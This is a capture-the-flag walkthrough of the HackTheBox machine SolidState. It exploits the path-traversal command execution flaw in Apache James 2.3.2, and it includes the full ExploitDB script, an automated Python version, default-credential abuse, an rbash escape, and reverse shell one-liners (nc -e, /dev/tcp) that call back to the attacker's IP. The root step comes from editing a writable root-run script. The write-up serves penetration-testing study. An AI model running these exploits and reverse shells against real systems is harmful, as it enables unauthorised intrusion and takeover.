

This box was an Medium box from HackTheBox. It's OS is Linux. The entry point is with a James SMTP server running on this host, this server is vulnerable. We can exploit it and get a shell. The root is trough a python script running as root, and a normal user can modify it. So it's easy to get root!

The exploit for this box is on the body of the post. Hope you enjoy!

# Diagram



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.51
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

We try to open it on the browser


Nothing useful here for now.

## Ports 25/110/119

Looking at the nmap we found the ports 25/110/119 opened too. Which is the SMTP ports.

We search for `James` exploit and found on interesting


[ExploitDB](https://www.exploit-db.com/exploits/35513)

[Blog](https://crimsonglow.ca/~kjiwa/2016/06/exploiting-apache-james-2.3.2.html)

Let's do it. First we need to see it the port 4555 is opened, which is the admin port of James Service


And it's opened.

# Shell as Mindy (1º Path - SSH)

With that in mind we can access the mail server and see what we can do there

The default creds of root/root work:


We change the password for the users

```
setpassword -h
listusers
```


We change the mindy password

```
setpassword mindy 0x4rt3mis
```


Now with telnet we log in mindy mail

```
telnet 10.10.10.51 110
mindy
0x4rt3mis
RETR 2
```


```
username: mindy
pass: P@55W0rd1!2@
```

Now we ssh in


`/etc/passwd` shows that `mindy's` shell is rbash:


## Rbash

Now, with that in mind, we need to bypass this restricted shell, in order to get a fully interactive shell

[Reference 1](https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf)

We could escape using `-t bash` on the ssh command


We could use the command `ssh mindy@10.10.10.51 'bash --noprofile'` also


Ok, but this I think was not the intended way to get this box. We need to explore the `James` smtp server.

# Shell as Mindy (2º Path - James)

Here we'll explore the James server to get a reverse shell in this box. First we look what the script in searchsploit does


```py
#!/usr/bin/python
#
# Exploit Title: Apache James Server 2.3.2 Authenticated User Remote Command Execution
# Date: 16\10\2014
# Exploit Author: Jakub Palaczynski, Marcin Woloszyn, Maciej Grabiec
# Vendor Homepage: http://james.apache.org/server/
# Software Link: http://ftp.ps.pl/pub/apache/james/server/apache-james-2.3.2.zip
# Version: Apache James Server 2.3.2
# Tested on: Ubuntu, Debian
# Info: This exploit works on default installation of Apache James Server 2.3.2
# Info: Example paths that will automatically execute payload on some action: /etc/bash_completion.d , /etc/pm/config.d

import socket
import sys
import time

# specify payload
#payload = 'touch /tmp/proof.txt' # to exploit on any user
payload = '[ "$(id -u)" == "0" ] && touch /root/proof.txt' # to exploit only on root
# credentials to James Remote Administration Tool (Default - root/root)
user = 'root'
pwd = 'root'

if len(sys.argv) != 2:
    sys.stderr.write("[-]Usage: python %s <ip>\n" % sys.argv[0])
    sys.stderr.write("[-]Exemple: python %s 127.0.0.1\n" % sys.argv[0])
    sys.exit(1)

ip = sys.argv[1]

def recv(s):
        s.recv(1024)
        time.sleep(0.2)

try:
    print "[+]Connecting to James Remote Administration Tool..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,4555))
    s.recv(1024)
    s.send(user + "\n")
    s.recv(1024)
    s.send(pwd + "\n")
    s.recv(1024)
    print "[+]Creating user..."
    s.send("adduser ../../../../../../../../etc/bash_completion.d exploit\n")
    s.recv(1024)
    s.send("quit\n")
    s.close()

    print "[+]Connecting to James SMTP server..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,25))
    s.send("ehlo team@team.pl\r\n")
    recv(s)
    print "[+]Sending payload..."
    s.send("mail from: <'@team.pl>\r\n")
    recv(s)
    # also try s.send("rcpt to: <../../../../../../../../etc/bash_completion.d@hostname>\r\n") if the recipient cannot be found
    s.send("rcpt to: <../../../../../../../../etc/bash_completion.d>\r\n")
    recv(s)
    s.send("data\r\n")
    recv(s)
    s.send("From: team@team.pl\r\n")
    s.send("\r\n")
    s.send("'\n")
    s.send(payload + "\n")
    s.send("\r\n.\r\n")
    recv(s)
    s.send("quit\r\n")
    recv(s)
    s.close()
    print "[+]Done! Payload will be executed once somebody logs in."
except:
    print "Connection failed."
```

Alweays when create a new user in James stmp server, a folder is created for that user based on their username, and when email comes in, it is stored in that folder. The vulnerability is in the username, if the user is named ../../../../../0x4rt3mis, then it will create that folder at the root level and drop files in it with the contents of received emails, great huh? What the script does, is when the user send an email, it executes the bash_completion, so we can trigger a reverse shell trough it!

Let's make it manual

1º Create a User

```
nc 10.10.10.51 4555
root
root
adduser ../../../../../../../../etc/bash_completion.d 0x4rt3misHTB
quit
```


2º Send an email with a reverse shell, connecting to SMTP on 25:

```
telnet 10.10.10.51 25
EHLO 0x4rt3mis
MAIL FROM: <'0x4rt3mis@10.10.14.3>
RCPT TO: <../../../../../../../../etc/bash_completion.d>
DATA
FROM: 0x4rt3mis@10.10.14.3
'
/bin/nc -e /bin/bash 10.10.14.3 8888
.
QUIT
```


This creates a file in /etc/bash_completion.d that contains my reverse shell. So the next time any user logs in, we will get a shell as that user.

Now we got a reverse shell


Now let's easily automate it, once we already did it manually and we have a exploit read to guide us.

# Auto Reverse Shell

We'll use our skeleton

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is


auto_solid.py

```py
#!/usr/bin/python3
# Exploit got from: https://www.exploit-db.com/exploits/35513
# Exploit for SolidState - HackTheBox
# James 2.3.2 Vulnerability
# Author: 0x4rt3mis

import argparse
import requests
import sys
import socket
import time
import subprocess
import os

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()
global user
global pwd
user = b'root'
pwd = b'root'

'''Here come the Functions'''
def recv(s):
    s.recv(1024)
    time.sleep(0.2)

def SendPayload(rhost,lhost,lport):
    payload = "/bin/nc -e /bin/bash %s %s" %(lhost,lport)
    print("[+] Connecting to James Remote Administration Tool...")
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((rhost,4555))
    s.recv(1024)
    s.send(user + b"\n")
    s.recv(1024)
    s.send(pwd + b"\n")
    s.recv(1024)
    print("[+] Creating user...")
    s.send(b"adduser ../../../../../../../../etc/bash_completion.d exploit\n")
    s.recv(1024)
    s.send(b"quit\n")
    s.close()

    print("[+] Connecting to James SMTP server...")
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((rhost,25))
    s.send(b"ehlo team@team.pl\r\n")
    recv(s)
    print("[+] Sending payload...")
    s.send(b"mail from: <'@team.pl>\r\n")
    recv(s)
    s.send(b"rcpt to: <../../../../../../../../etc/bash_completion.d>\r\n")
    recv(s)
    s.send(b"data\r\n")
    recv(s)
    s.send(b"From: team@team.pl\r\n")
    s.send(b"\r\n")
    s.send(b"'\n")
    payload = str.encode(payload)
    s.send(payload + b"\n")
    s.send(b"\r\n.\r\n")
    recv(s)
    s.send(b"quit\r\n")
    recv(s)
    s.close()
    print("[+] Done! Payload will be executed once somebody logs in.")

# Just trigger it
def LoginSSH(rhost,lport):
    print("[+] Just trigger it !! [+]")
    FNULL = open(os.devnull, 'w')
    subprocess.Popen(["sshpass","-p","P@55W0rd1!2@","ssh","mindy@%s" %rhost],
        stdout=FNULL, 
        stderr=subprocess.STDOUT)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser(description='HackTheBox SolidState AutoShell - 0x4rt3mis')
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port to receive the shell', required=True)

    args = parser.parse_args()

    rhost = args.target
    lhost = args.localip
    lport = args.localport

    '''Here we call the functions'''
    # Send Payload
    SendPayload(rhost,lhost,lport)
    # Trigger it
    LoginSSH(rhost,lport)

if __name__ == '__main__':
    main()
```

Let's get root.

# mindy --> root

Seeing what is in /opt we get something interesting

```sh
ls -l /opt/
```


Running [pspy](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.0) we found some good proccess running as root


root is running this python file, and we can modify it!


So, it's easy to get a reverse root shell

```py
os.system('bash -c "bash -i >& /dev/tcp/10.10.14.3/8855 0>&1"')
```


After some minutes, we are root

